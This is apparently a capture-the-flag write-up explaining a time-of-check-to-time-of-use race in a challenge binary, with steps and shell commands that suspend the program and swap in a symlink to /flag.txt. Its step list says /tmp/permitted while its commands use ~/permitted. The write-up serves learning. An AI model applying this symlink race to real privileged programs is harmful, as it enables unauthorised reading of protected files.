There is a delay between checking the file's permissions and opening it.

1. Create the `/tmp/permitted` file
2. Run the chal executable in the background
3. Create a symbolic link from `/tmp/permitted` to `/flag.txt`
4. don't write any text and press enter
5. the user will be able to read the flag

```sh
touch ~/permitted
cd /challenge
./chal
<ctrl+z> # to pause the process
ln -sf /flag.txt ~/permitted
fg 
# then press enter (don't write any text in the terminal)
```

